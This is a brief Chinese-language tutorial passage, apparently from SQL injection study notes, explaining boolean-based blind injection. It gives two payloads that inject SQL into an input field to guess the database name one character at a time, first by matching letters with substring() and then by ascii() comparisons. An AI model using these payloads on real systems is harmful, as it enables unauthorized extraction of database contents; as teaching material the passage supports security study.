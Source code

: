 ## 通过布尔型盲注获取数据库信息

substring(<字符串>,<开始截取>,<截取长度>)
通过将查询到的结果的字母进行比对，可以通过布尔型盲注获取数据的内容，以下代码可以确认数据库名第一个字母是d，如果不是d将会显示另外一个不匹配的页面

```
1' and substring(database(),1,1)='d' --  
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1672109007373-a2ed0213-dbb2-4a24-81bc-b6ca5b7cf618.png)

接下来可以查询第二个字母，并且以此类推，可以将需要查询的字符转换为ascii字符编码，然后进行大于小于比对加快查询速度，通过对照ascii码表可以很快锁定字符是什么

```
1' and ascii(substring(database(),1,1))>97 -- 
```

![image.png](03.SQL%E6%B3%A8%E5%85%A5/1672109318593-eb9c0eaa-f69f-4c16-8a15-cec4a6ccc58a.png)

